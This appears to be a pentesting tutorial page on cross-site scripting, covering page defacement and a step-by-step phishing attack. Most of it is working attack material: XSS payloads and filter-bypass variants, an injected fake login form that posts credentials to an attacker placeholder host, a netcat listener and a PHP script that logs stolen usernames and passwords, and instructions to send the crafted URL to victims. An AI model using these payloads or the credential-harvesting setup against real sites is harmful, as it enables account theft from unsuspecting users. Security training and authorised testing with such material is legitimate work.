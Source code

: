 # XSS Attacks

### Defacing

After we successfully discover a XSS vulnerability, we might want exploit it and inject JavaScript code through XSS and make a web page look any way we like.

There are some common HTML elements usually utilized to change the original look of a web page:

* Background Color <mark style="color:purple;">document.body.style.background</mark>
* Background <mark style="color:purple;">document.body.background</mark>
* Page Title <mark style="color:purple;">document.title</mark>
* Page Text <mark style="color:purple;">DOM.innerHTML</mark>

#### Changing the Background

```html
<script>document.body.style.background = "black"</script>
```

{% code overflow="wrap" %}
```html
<script>document.body.background = "https://www.example.com/images/logo.svg"</script>
```
{% endcode %}

#### Changing Page Title

```html
<script>document.title = 'Example Site'</script>
```

#### Changing Page Text

It is possible to change the text of a specific HTML element/DOM using <mark style="color:purple;">innerHTML</mark> function:

```javascript
document.getElementById("todo").innerHTML = "New Text"
```

### Phishing

A common type of XSS attack is phishing. In these attacks, scammers use fake but convincing information to trick people into giving away their sensitive information. One way this happens is by creating fake login forms that capture users' login details and send them to the attacker. The attacker can then use this information to access the victim's account.

If we find an XSS vulnerability in a web application for a specific organization, we can use it to run a phishing simulation. This exercise helps us see how aware the organization's employees are about security, especially if they trust the vulnerable web application and don’t think it could be harmful.



#### XSS Discovery

### Step 1: Understanding the Target Application

1. **Identify the Input Field**: Locate the input field where user input is accepted (e.g., an image URL input).
2. **Analyze the Output**: Use browser developer tools (F12) to inspect how your input is rendered in the HTML.

### Step 2: Initial Payload Testing

1. **Basic XSS Payload**: Start with a simple payload:

```javascript
<script>alert('XSS');</script>
```

* Input this into the image URL field and submit.
* If the alert box appears, you have confirmed an XSS vulnerability.

2. **Check for Output Encoding**: If the payload does not execute, check for HTML entities (e.g., `&lt;` for `<`).

### Step 3: Crafting a Working Payload

1. **Bypass Filters**: If basic payloads are blocked, try variations:
   * Use event handlers:

```html
<img src="x" onerror="alert('XSS');">
```

* Use alternative tags or attributes:

```html
<svg><script>alert('XSS');</script></svg>
```

2. **Inspecting the HTML Output**: After submitting your payload, view the page source to see how your input is rendered.

### Step 4: Developing the Phishing Payload

1. **Create a Login Form**: Use `document.write()` to inject the phishing form:

{% code overflow="wrap" %}
```javascript
document.write('<h3>Please login to continue</h3><form action="http://YOUR_IP"><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>');
```
{% endcode %}

2. **Remove Existing Elements**: To make the phishing form more convincing, remove the original input field:

```javascript
document.getElementById('urlform').remove();
```

3. **Combine the Code**: Your final payload might look like this:

{% code overflow="wrap" %}
```javascript
document.getElementById('urlform').remove();
document.write('<h3>Please login to continue</h3><form action="http://YOUR_IP"><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>');
```
{% endcode %}

### Step 5: Setting Up the Listener

1. **Using Netcat**: Start a listener to capture the credentials:

```bash
sudo nc -lvnp 80
```

2. **Using PHP**: Create a PHP script to log the credentials:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://YOUR_SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

* Save this as `index.php` and run a PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Step 6: Executing the Attack

1. **Craft the Malicious URL**: Combine the target URL with your payload:

```
http://target-website.com/phishing?url=<your_payload_here>
```

2. **Send the URL**: Share the crafted URL with potential victims.
3. **Capture Credentials**: When a victim logs in, their credentials will be sent to your server, and you can check `creds.txt` for the captured information.

